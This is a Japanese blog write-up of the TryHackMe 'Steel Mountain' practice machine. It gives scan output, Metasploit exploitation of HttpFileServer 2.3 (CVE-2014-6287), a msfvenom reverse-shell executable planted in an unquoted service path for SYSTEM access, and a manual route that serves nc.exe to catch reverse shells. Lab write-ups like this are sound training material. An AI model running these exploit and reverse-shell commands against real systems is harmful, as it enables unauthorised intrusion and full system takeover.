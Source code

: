 ```yaml
---
title: "【TryHackMe write-up】Steel Mountain"
date:  "2020-05-01T15:04:05+07:00"
author:
  - "さんぽし"
draft: false
tags: ["writeup","TryHackMe"]
categories:
  - "security"
---
```

## はじめに
TryHackMe という Hack the Box のようなサービスを最近やっています。
https://tryhackme.com/

その中の Steel Mountain という machine をやっていきます
## cheat sheet

以下で cheat sheet としてツールの使い方などをまとめています。参考にしてください。
[github | sanposhiho/MY_CHEAT_SHEET](https://github.com/sanposhiho/MY_CHEAT_SHEET)

## nmap

```
root@kali:~# nmap -sV -sC 10.10.217.52
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-30 12:23 UTC
Nmap scan report for ip-10-10-217-52.eu-west-1.compute.internal (10.10.217.52)
Host is up (0.00040s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2020-04-30T12:25:06+00:00; +1s from scanner time.
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
49161/tcp open  msrpc              Microsoft Windows RPC
MAC Address: 02:44:3D:25:E8:22 (Unknown)
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:44:3d:25:e8:22 (unknown)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-04-30T12:25:01
|_  start_date: 2020-04-30T12:23:07

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 130.23 seconds
```


## exploit
HttpFileServer 2.3 が動いているので
CVE-2014-6287 を利用します
https://www.exploit-db.com/exploits/39161

metasploit を使用します

```
msf5 > search httpfileserver

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution

```

諸々設定して run します

```
msf5 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.10.245.227:4444 
[*] Using URL: http://0.0.0.0:8080/Xxa80jSiWx
[*] Local IP: http://10.10.245.227:8080/Xxa80jSiWx
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /Xxa80jSiWx
[*] Sending stage (180291 bytes) to 10.10.217.52
[*] Meterpreter session 1 opened (10.10.245.227:4444 -> 10.10.217.52:58069) at 2020-04-30 13:00:00 +0000
[!] Tried to delete %TEMP%\StrHYWOhBpRtio.vbs, unknown result
[*] Server stopped.

meterpreter >
```

meterpreter のシェルが取れたのでこれで user.txt が取得できます

## privilege escalation
PowerUp.ps1 なるものがあるようなので meterpreter から upload します
https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
使い方
https://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/


```
C:hogehoge > powershell.exe -exec bypass -Command “& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}”

（省略）

[*] Checking for unquoted service paths...


ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced 
                 SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; 
                 Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path 
                 <HijackPath>
CanRestart     : True

（省略）
```
以下の用に unquoted service path はそこに別のプログラムを置くことで任意のコマンドを実行できる可能性があります。
[引用符で囲まれていないプログラムパスの処理問題](http://www.sec-pro.net/newsletter/20121112.html)

また、`CanRestart: True`であることから service をリスタート、すなわち unquoted service paths の部分を利用して配置した任意コマンドを実行できます。

msfvenom で payload を exe の形式で作成して、

```
root@kali:~# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.245.227 LPORT=1111 -f exe -o Advanced.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: Advanced.exe

```
作成した Advanced.exe を meterpreter の upload コマンドを通して、`C:\Program Files (x86)\IObit\`に配置します。

```
meterpreter > cd "\Program Files (x86)\IObit"
meterpreter > upload Advanced.exe
[*] uploading  : Advanced.exe -> Advanced.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): Advanced.exe -> Advanced.exe
[*] uploaded   : Advanced.exe -> Advanced.exe
```

以下のコマンドで AdvancedSystemCareService9 をリスタートします

```
sc stop AdvancedSystemCareService9
sc start AdvancedSystemCareService9
```

これで root が取れました

```
root@kali:~# nc -lnvp 1111
listening on [any] 1111 ...
connect to [10.10.245.227] from (UNKNOWN) [10.10.93.43] 50263
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

```

## metasploitなしで攻略してみる
同じものですが、以下の exploit を使います
https://www.exploit-db.com/exploits/39161

以下の writeup が役立ちそうです（Hack the Box の wruteup です）
https://medium.com/@ranakhalil101/hack-the-box-optimum-writeup-w-o-metasploit-3a912e1c488c

```
root@kali:~# locate nc.exe
/usr/share/windows-resources/binaries/nc.exe
root@kali:~# cp /usr/share/windows-resources/binaries/nc.exe ./
root@kali:~# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

```
root@kali:~# nc -lnvp 1112
listening on [any] 1112 ...
```

shell1 と shell2 で待ち受けて実行します

```
root@kali:~# python exploit.py 10.10.93.43 8080
root@kali:~# python exploit.py 10.10.93.43 8080
```
（複数回実行が必要です）



```
root@kali:~# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.93.43 - - [30/Apr/2020 15:40:02] "GET /nc.exe HTTP/1.1" 200 -

```


```
root@kali:~# nc -lnvp 1112
listening on [any] 1112 ...
connect to [10.10.245.227] from (UNKNOWN) [10.10.93.43] 50307
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>whoami
whoami
steelmountain\bill
```

user が取れました
これ以降はほぼ同じなので割愛します

## 終わりに
OSCP の Learning Path に乗ってるだけあって metasploit なしの方法もしっかり誘導があって良い感じでした。
unquoted service paths を利用した置き換えは初見だったのでホェーとなりました

